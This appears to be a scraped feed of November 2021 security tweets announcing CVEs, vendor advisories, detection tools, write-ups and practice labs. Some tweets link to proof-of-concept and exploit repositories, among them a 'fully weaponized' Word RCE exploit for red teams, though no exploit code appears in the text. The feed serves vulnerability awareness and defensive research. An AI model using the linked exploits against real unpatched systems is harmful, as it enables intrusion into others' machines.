**https://twitter.com/Cyb3rWard0g/status/1459658355530768388 _at 2021-11-13 23:04:05_**
<blockquote>
🚨 Can't wait to test #RpcFirewall in a lab? I just released a new template to deploy a research lab with everything set up &amp; events flowing to #MicrosoftSentinel 😎

https://t.co/1cjoxv5TTJ

Thank you @SagieSec and @ZeroNetworks team 🙏 #MSTIC @OTR_Community #AnotherOne https://t.co/tzln8S0O6I
</blockquote>

* https://github.com/OTRF/Microsoft-Sentinel2Go/tree/master/grocery-list/Win10-RPCFW

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>74</code></td>
<td>Favorites: <code>202</code></td>
</tr></table>

---

# cackerman1
**https://twitter.com/cackerman1/status/1459488685121019904 _at 2021-11-13 11:49:53_**
<blockquote>
CVE-2021-40444 - Fully Weaponized Microsoft Office Word RCE Exploit; for RedTeams

https://t.co/aeikDKLkSG

Detecting remote code execution with Microsoft Advanced Threat Analytics

https://t.co/UOAfGiebzo https://t.co/doXt6vwteT
</blockquote>

* https://github.com/klezVirus/CVE-2021-40444
* https://techcommunity.microsoft.com/t5/security-compliance-and-identity/detecting-remote-code-execution-with-microsoft-advanced-threat/ba-p/250448

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# ya_and_alone
**https://twitter.com/ya_and_alone/status/1459344340212400131 _at 2021-11-13 02:16:18_**
<blockquote>
CVE-2021-41349 Exchange XSS PoC

&lt;= Exchange 2013 update 23
&lt;= Exchange 2016 update 22
&lt;= Exchange 2019 update 11

https://t.co/ShvP7qpOQb

#CVE #bugbountytips #bugbounty
</blockquote>

* https://github.com/0x0021h/expbox/blob/main/cve-2021-41349-poc.py

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>7</code></td>
</tr></table>

---

# Securityblog
**https://twitter.com/Securityblog/status/1459314705198157827 _at 2021-11-13 00:18:33_**
<blockquote>
GitHub - corelight/CVE-2021-42292: A Zeek package to detect CVE-2021-42292, a Microsoft Excel local privilege escalation exploit. https://t.co/PZnTbQamSs
</blockquote>

* https://github.com/corelight/CVE-2021-42292

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>10</code></td>
</tr></table>

---

# rootxharsh
**https://twitter.com/rootxharsh/status/1459221904108097537 _at 2021-11-12 18:09:47_**
<blockquote>
We've been assigned with CVE-2021-41349 for pre-auth Reflected XSS in MS Exchange. Found this with @iamnoooob months back while playing with Proxyshell lol.

https://t.co/jLdPSGyEAs

https://t.co/6D5nzfHOMZ https://t.co/rIUGq0lheX
</blockquote>

* https://github.com/httpvoid/CVE-Reverse/tree/master/CVE-2021-41349
* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-41349

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>428</code></td>
</tr></table>

---

# ManasH4rsh
**https://twitter.com/ManasH4rsh/status/1459025882102652931 _at 2021-11-12 05:10:52_**
<blockquote>
small set of PHP scripts to practice exploiting LFI, RFI and CMD injection vulns:)

https://t.co/W5jnxHU0Lk
</blockquote>

* https://github.com/paralax/lfi-labs

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1458858065327902723 _at 2021-11-11 18:04:01_**
<blockquote>
VMware vCenter Server contains a privilege escalation vulnerability (CVE-2021-22048) in the IWA (Integrated Windows Authentication) authentication mechanism.

https://t.co/uz5R1Ek0jF
</blockquote>

* https://www.vmware.com/security/advisories/VMSA-2021-0025.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>75</code></td>
</tr></table>

---

# Sam_0x0
**https://twitter.com/Sam_0x0/status/1458852010292576256 _at 2021-11-11 17:39:58_**
<blockquote>
A Zeek package to detect CVE-2021-42292, a Microsoft Excel local privilege escalation 

https://t.co/j563Hbczqe
</blockquote>

* https://github.com/corelight/CVE-2021-42292#detection-method

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1458824412644392960 _at 2021-11-11 15:50:18_**
<blockquote>
Unauthenticated Remote Code Execution (RCE) vulnerability in Hikvision IP camera/NVR firmware (CVE-2021-36260) https://t.co/tCi8bf7x4s  #Pentesting #RCE #CVE #Vulnerability #CyberSecurity #Infosec https://t.co/lrvIiNbup5
</blockquote>

* https://watchfulip.github.io/2021/09/18/Hikvision-IP-Camera-Unauthenticated-RCE.html

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1458685110891409408 _at 2021-11-11 06:36:46_**
<blockquote>
A new zero-day #vulnerability (CVE-2021-3064) has been discovered in Palo Alto Networks GlobalProtect VPN, which could be exploited by an unauthenticated attacker to execute arbitrary code with root privileges on affected devices.

Detail: https://t.co/BxIhcXtByA

#infosec #tech
</blockquote>

* https://thehackernews.com/2021/11/palo-alto-warns-of-zero-day-bug-in.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>105</code></td>
<td>Favorites: <code>228</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1458671823227392002 _at 2021-11-11 05:43:58_**
<blockquote>
A Zeek package to detect CVE-2021-42292, a #Microsoft #Excel local privilege escalation #exploit
https://t.co/K3DKzzDM1D

2. RPC Firewall
https://t.co/kQ7N3wEJch https://t.co/K4x8Oot618 https://t.co/Bo5gCziFJI
</blockquote>

* https://github.com/corelight/CVE-2021-42292
* https://github.com/zeronetworks/rpcfirewall
* https://t.me/hackgit/1839

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# payloadartist
**https://twitter.com/payloadartist/status/1458659607123935234 _at 2021-11-11 04:55:25_**
<blockquote>
Unauthenticated RCE in @PaloAltoNtwks GlobalProtect VPN by @RandoriAttack (CVE-2021-3064)

🌟 Chain consists of HTTP smuggling and a stack-based buffer overflow
🌟  Palo Alto firewalls (PAN-OS &lt; 8.1.17)

https://t.co/X9IuwILZrD

#cybersecurity #infosec #bugbounty #bugbountytips https://t.co/GAoM4We1Zs
</blockquote>

* https://www.randori.com/blog/cve-2021-3064/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>82</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1458517618805993479 _at 2021-11-10 19:31:12_**
<blockquote>
CVE-2021-3064 
Memory corruption vulnerability in Palo Alto GlobalProtect portal and gateway interfaces leading to unauthenticated remote code execution.

PoC video by @RandoriSecurity:
https://t.co/RCj90TebR4

Vendor advisory:
https://t.co/StlvoWNe07
</blockquote>

* https://vital.wistia.com/medias/ht539sderu
* https://security.paloaltonetworks.com/CVE-2021-3064

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# _r_netsec
**https://twitter.com/_r_netsec/status/1458490412541554688 _at 2021-11-10 17:43:06_**
<blockquote>
CVE-2021-3064: CVSS 9.8 RCE in Palo Alto Networks GlobalProtect VPN https://t.co/Oh1XoWKfUE
</blockquote>

* https://www.randori.com/blog/cve-2021-3064/?i=2

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>79</code></td>
</tr></table>

---

# RandoriAttack
**https://twitter.com/RandoriAttack/status/1458480272828162056 _at 2021-11-10 17:02:48_**
<blockquote>
Announcing CVE-2021-3064: a CVSS 9.8 unauthenticated RCE in @PaloAltoNtwks GlobalProtect VPN devices discovered and disclosed by @RandoriSecurity. Read on for our advisory and stay tuned for further technical details. https://t.co/18JGQnrBsm
</blockquote>

* https://www.randori.com/blog/cve-2021-3064

<table><tr>
<td>Quotes: <code>35</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>237</code></td>
<td>Favorites: <code>394</code></td>
</tr></table>

---

# uuallan
**https://twitter.com/uuallan/status/1458147861472886789 _at 2021-11-09 19:01:55_**
<blockquote>
Watch out for CVE-2021-38666 in this month's Patch Tuesday. RCE against Windows RDP that Microsoft Labeled "Exploitation More Likely," I think we'll be updating our chart soon @pancak3lullz 
https://t.co/ppaE71RbWx
</blockquote>

* https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-38666

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1458134630557753349 _at 2021-11-09 18:09:21_**
<blockquote>
The second, CVE-2021-42321, is the Exchange bug discovered at the Tianfu Cup, which Microsoft said it saw "limited targeted attacks in the wild"

https://t.co/gAqFWJoxJO
</blockquote>

* https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-42321

<table><tr>
<td>Quotes: <code>19</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>92</code></td>
</tr></table>

---

# IamRenganathan
**https://twitter.com/IamRenganathan/status/1457947450270879744 _at 2021-11-09 05:45:34_**
<blockquote>
A Huge resource of SSRF- Server Side Request Forgery. From what is SSRF to Writeups to Labs! 

created by @JDonSec 

https://t.co/FZvqMgzHAF

#bugbounty #infosec #ssrf
</blockquote>

* https://github.com/jdonsec/AllThingsSSRF

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>152</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1457466848698458116 _at 2021-11-07 21:55:49_**
<blockquote>
Mass scanning activity detected from the following hosts targeting Fortinet VPN servers vulnerable to unauthenticated arbitrary file read (CVE-2018-13379) leading to disclosure of usernames and passwords in plaintext.
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

# metasploit
**https://twitter.com/metasploit/status/1456711482608164875 _at 2021-11-05 19:54:16_**
<blockquote>
Weekly wrap-up via @zeroSteiner: Three new modules, including an exploit for GitLab unauthenticated RCE CVE-2021-22205, and more session compatibility improvements🐚https://t.co/1htJPUAXq8
</blockquote>

* https://www.rapid7.com/blog/post/2021/11/05/metasploit-wrap-up-137/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# OPOSEC
**https://twitter.com/OPOSEC/status/1456531738319114241 _at 2021-11-05 08:00:02_**
<blockquote>
mIRC &lt;7.55 RCE using arg injection via custom URIs handlers (CVE-2019-6453). https://t.co/1KVu8XAFeT PoC: https://t.co/MQTGXdgwW1 #Security #266 (2019)
</blockquote>

* https://proofofcalc.com/cve-2019-6453-mIRC/
* https://github.com/proofofcalc/cve-2019-6453-poc

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1456485425405521921 _at 2021-11-05 04:56:00_**
<blockquote>
Write-up for CVE-2021-30902, a use-after-free vulnerability in iOS Voice Control

https://t.co/6If81IhBNK https://t.co/E2QI1XybOy
</blockquote>

* https://blog.zecops.com/research/use-after-free-in-voice-control-cve-2021-30902/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>68</code></td>
</tr></table>

---

# theRaz0r
**https://twitter.com/theRaz0r/status/1456247675775594504 _at 2021-11-04 13:11:16_**
<blockquote>
Did you know that you can register an ENS name with XSS? Although https://t.co/BzvJveRxIA will not let you register it because of frontend validation, it is possible to do so directly with a smart contract. Here is a tool: https://t.co/8Lfp5nR7Zu https://t.co/kUNJ0ZU2DI
</blockquote>

* http://ens.domains
* https://github.com/Raz0r/ens-xss

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>294</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1456232864278667265 _at 2021-11-04 12:12:24_**
<blockquote>
A heap overflow #vulnerability (CVE-2021-43267) has been reported in #Linux Kernel's Transparent Inter Process Communication (TIPC) module that can be exploited either locally or remotely within a network to gain kernel privileges.

Read: https://t.co/Jw54ilUDQT

#infosec #tech
</blockquote>

* https://thehackernews.com/2021/11/critical-rce-vulnerability-reported-in.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>166</code></td>
</tr></table>

---

# mishaboar
**https://twitter.com/mishaboar/status/1456087240367607812 _at 2021-11-04 02:33:45_**
<blockquote>
The security vulnerability involves potential remote code execution when visiting malicious sites. This can cause your Dogecoin Core wallet app to install malicious plugins and execute arbitrary code. More details in here: https://t.co/FdF89FjIaG #dogecoin
</blockquote>

* https://github.com/dogecoin/dogecoin/issues/2665

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---

# menscher
**https://twitter.com/menscher/status/1456057918562861059 _at 2021-11-04 00:37:14_**
<blockquote>
A botnet of thousands of compromised #GitLab instances (exploited via CVE-2021-22205) is generating DDoS attacks in excess of 1 Tbps. Please patch your servers!
</blockquote>

<table><tr>
<td>Quotes: <code>20</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>142</code></td>
<td>Favorites: <code>328</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1455769481720913925 _at 2021-11-03 05:31:05_**
<blockquote>
#Android Security Bulletin — Nov 2021

➤ There is a new zero-day #vulnerability (CVE-2021-1048) that is being exploited by hackers for targeted attacks.

➤ #Google has rolled out patches for this and 38 other flaws.

Read — https://t.co/s9mBRAfBIa

#infosec #cybersecurity
</blockquote>

* https://thehackernews.com/2021/11/google-warns-of-new-android-0-day.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>124</code></td>
<td>Favorites: <code>166</code></td>
</tr></table>

---

# 0x94
**https://twitter.com/0x94/status/1455648636981874691 _at 2021-11-02 21:30:54_**
<blockquote>
Windows 0 day vulnerability affects all Windows versions

CVE-2021-34484 Windows user configuration service privilege escalation vulnerability

https://t.co/jspMZcepCR

#windows #zeroday
</blockquote>

* https://github.com/klinix5/ProfSvcLPE/blob/main/write-up.docx

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# Securityblog
**https://twitter.com/Securityblog/status/1455626450321674248 _at 2021-11-02 20:02:44_**
<blockquote>
[EN] CVE-2021-22205 GitLab unauthenticated RCE exploited in the wild - Pasquale 'sid' Fiorillo https://t.co/yK78gUusZC
</blockquote>

* https://blog.pasqualefiorillo.it/cve-2021-22205-gitlab-unauthenticated-rce-exploited-in-the-wild/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1455485704746807300 _at 2021-11-02 10:43:28_**
<blockquote>
CVE-2021-3156 "One Shot" LPE (Linux) exploit
https://t.co/SCebJv4w9F
</blockquote>

* https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>105</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1455476212755693568 _at 2021-11-02 10:05:45_**
<blockquote>
WARNING: A critical unauthenticated remote code execution flaw (CVE-2021-22205) affecting #GitLab CE is being actively exploited in the wild.

Details: https://t.co/ylvRRWn8qS

#infosec #hacking #cyberattack #cybersecurity
</blockquote>

* https://thehackernews.com/2021/11/alert-hackers-exploiting-gitlab.html

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>177</code></td>
<td>Favorites: <code>267</code></td>
</tr></table>

---

# nick0ve
**https://twitter.com/nick0ve/status/1455466593996115968 _at 2021-11-02 09:27:31_**
<blockquote>
Published my first blog post!
https://t.co/oGQVKMkeg6
</blockquote>

* https://github.com/nick0ve/how-to-bypass-aslr-on-linux-x86_64

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# blackorbird
**https://twitter.com/blackorbird/status/1455437275823689728 _at 2021-11-02 07:31:01_**
<blockquote>
#APT-C-59 (芜琼洞) Group of 2021 attack summary.
During the same period of time, the Lazarus Group also used the same 0day vulnerability CVE-2021-26411. 
report:
https://t.co/CCL5hWBfde
translate:
https://t.co/ciHhpb4Vj1 https://t.co/Os1TnjU6J1
</blockquote>

* https://mp.weixin.qq.com/s/WBpML3BTxFPHmBgyunmEEA
* https://mp-weixin-qq-com.translate.goog/s/WBpML3BTxFPHmBgyunmEEA?_x_tr_sl=zh-CN&_x_tr_tl=en&_x_tr_hl=zh-CN&_x_tr_pto=nui

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# ashketchum_16
**https://twitter.com/ashketchum_16/status/1455235075054858243 _at 2021-11-01 18:07:33_**
<blockquote>
I have discovered new CVE-2021-37999 in @googlechrome affecting Linux, Windows, Chrome, Mac, Fuchsia and Lacros Operating Systems.

Bug: Universal ( XSS ) - Insufficient data validation in New Tab Page
Reward: 1000$
Rank: 128

Thanks @GoogleVRP @Google 

https://t.co/jXC8mqMdN1 https://t.co/sWWr46iV89
</blockquote>

* https://www.linkedin.com/posts/ashish-dhone-640489135_cve-xss-uxss-activity-6860973213090938880-7Gy8

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---

# AttackerKb
**https://twitter.com/AttackerKb/status/1455157358120873989 _at 2021-11-01 12:58:44_**
<blockquote>
Full root cause analysis of GitLab unauthenticated remote code execution CVE-2021-22205. Includes methods for determining whether you're running a vulnerable version. https://t.co/vkE0m3SoXm
</blockquote>

* https://attackerkb.com/topics/D41jRUXCiJ/cve-2021-22205/rapid7-analysis?referrer=twitter

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---

# Anastasis_King
**https://twitter.com/Anastasis_King/status/1455117659025125379 _at 2021-11-01 10:20:59_**
<blockquote>
CVE-2021-20837 : 0day RCE in MovableType

https://t.co/ejeMyZABMF

PoC:
https://t.co/CAcgtjXmPO
</blockquote>

* https://nemesis.sh/posts/movable-type-0day/
* https://github.com/ghost-nemesis/cve-2021-20837-poc

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

